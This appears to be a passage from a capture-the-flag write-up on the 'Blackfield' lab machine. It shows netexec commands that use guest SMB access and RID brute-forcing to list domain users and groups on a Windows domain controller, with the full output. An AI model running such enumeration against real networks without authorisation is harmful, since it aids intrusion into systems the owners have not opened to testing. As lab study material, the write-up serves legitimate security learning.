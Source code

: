 ```
```

`netexec smb 10.10.10.192 -u 'guest' -p '' --users`:
```
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\guest: 
```
❌

`netexec smb 10.10.10.192 -u 'guest' -p '' --rid-brute`:
```
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\guest: 
SMB         10.10.10.192    445    DC01             498: BLACKFIELD\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.10.192    445    DC01             500: BLACKFIELD\Administrator (SidTypeUser)
SMB         10.10.10.192    445    DC01             501: BLACKFIELD\Guest (SidTypeUser)
SMB         10.10.10.192    445    DC01             502: BLACKFIELD\krbtgt (SidTypeUser)
SMB         10.10.10.192    445    DC01             512: BLACKFIELD\Domain Admins (SidTypeGroup)
SMB         10.10.10.192    445    DC01             513: BLACKFIELD\Domain Users (SidTypeGroup)
SMB         10.10.10.192    445    DC01             514: BLACKFIELD\Domain Guests (SidTypeGroup)
SMB         10.10.10.192    445    DC01             515: BLACKFIELD\Domain Computers (SidTypeGroup)
SMB         10.10.10.192    445    DC01             516: BLACKFIELD\Domain Controllers (SidTypeGroup)
SMB         10.10.10.192    445    DC01             517: BLACKFIELD\Cert Publishers (SidTypeAlias)
SMB         10.10.10.192    445    DC01             518: BLACKFIELD\Schema Admins (SidTypeGroup)
SMB         10.10.10.192    445    DC01             519: BLACKFIELD\Enterprise Admins (SidTypeGroup)
SMB         10.10.10.192    445    DC01             520: BLACKFIELD\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.10.192    445    DC01             521: BLACKFIELD\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.10.192    445    DC01             522: BLACKFIELD\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.10.192    445    DC01             525: BLACKFIELD\Protected Users (SidTypeGroup)
SMB         10.10.10.192    445    DC01             526: BLACKFIELD\Key Admins (SidTypeGroup)
SMB         10.10.10.192    445    DC01             527: BLACKFIELD\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.10.192    445    DC01             553: BLACKFIELD\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.10.192    445    DC01             571: BLACKFIELD\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.10.192    445    DC01             572: BLACKFIELD\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.10.192    445    DC01             1000: BLACKFIELD\DC01$ (SidTypeUser)
SMB         10.10.10.192    445    DC01             1101: BLACKFIELD\DnsAdmins (SidTypeAlias)
SMB         10.10.10.192    445    DC01             1102: BLACKFIELD\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.10.192    445    DC01             1103: BLACKFIELD\audit2020 (SidTypeUser)
SMB         10.10.10.192    445    DC01             1104: BLACKFIELD\support (SidTypeUser)
SMB         10.10.10.192    445    DC01             1105: BLACKFIELD\BLACKFIELD764430 (SidTypeUser)
SMB         10.10.10.192    445    DC01             1106: BLACKFIELD\BLACKFIELD538365 (SidTypeUser)
SMB         10.10.10.192    445    DC01             1107: BLACKFIELD\BLACKFIELD189208 (SidTypeUser)

[...]
```
